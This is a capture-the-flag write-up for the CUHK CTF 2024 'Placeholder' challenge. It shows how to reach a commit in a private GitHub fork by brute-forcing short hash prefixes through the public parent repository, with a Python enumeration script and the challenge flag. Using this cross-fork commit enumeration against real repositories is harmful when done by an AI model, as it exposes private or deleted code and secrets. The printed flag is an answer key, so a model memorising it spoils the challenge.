

## Placeholder
> Author: chemistrying \
> Category: misc \
> Expected Difficulty: 3 \
> Final Points: 196 \
> Solves: 10/38 (Secondary), 8/44 (CUHK), 7/8 (Invited Teams)
> 
> I committed the flag to my private fork which is forked from one of my organization's repository

First, you have to first find the parent repository.

You can check [`chemistrying`](https://github.com/chemistrying/) GitHub profile and see which organization they are in.

Then, you can find [`CUHK-placeholder` organization](https://github.com/CUHK-placeholder), which contains a public repository called [`cuhk-placeholder`](https://github.com/CUHK-placeholder/cuhk-placeholder).

This repository name is same as the one forked in the photo, so it's pretty convicing that this repository is the parent of the fork.

Then, the whole idea is based on [this blog](https://trufflesecurity.com/blog/anyone-can-access-deleted-and-private-repo-data-github).

Basically, you can brute force commits created from a private fork which forks from a public repository. The picture in the description leaked the first three characters of the commit hash so you can brute force less characters (only $16$ requests needed). In other words, you only have to find from `https://github.com/CUHK-placeholder/cuhk-placeholder/commit/5390` to `https://github.com/CUHK-placeholder/cuhk-placeholder/commit/539f`.



Solve script:
```py
import requests, time

url = "https://github.com/CUHK-placeholder/cuhk-placeholder/commit/539{hash}"

last_fetch = 0
# loop from 5390 to 539f
for i in range(16):
    hash = "{:01x}".format(i)
    
    print(f"Checking commit prefix 539{hash}")
    # rate limit ourselves
    while time.time() - last_fetch < 1:
        pass
    last_fetch = time.time()

    # send a request
    r = requests.get(url.format(hash=hash))

    # if the request give a status code of 200, that means it's OK
    if r.status_code == 200:
        print(f"539{hash} is a valid commit")
        with open(f"539{hash}.html", "w") as f:
            f.write(r.text)
    elif r.status_code != 404:
        print("ERROR!")
        print(r.text)
        exit(0)
```
You can fetch from GitHub API as well. 

The flag is in [this](https://github.com/CUHK-Placeholder/cuhk-placeholder/commit/5393) webpage.

Flag: **`cuhk24ctf{geet_fork___3_c0mwit_pub11c_eVery1_kNoWs_CAAANT_hid_s3cr3t_BEWAaAaaaaAAaRE}`**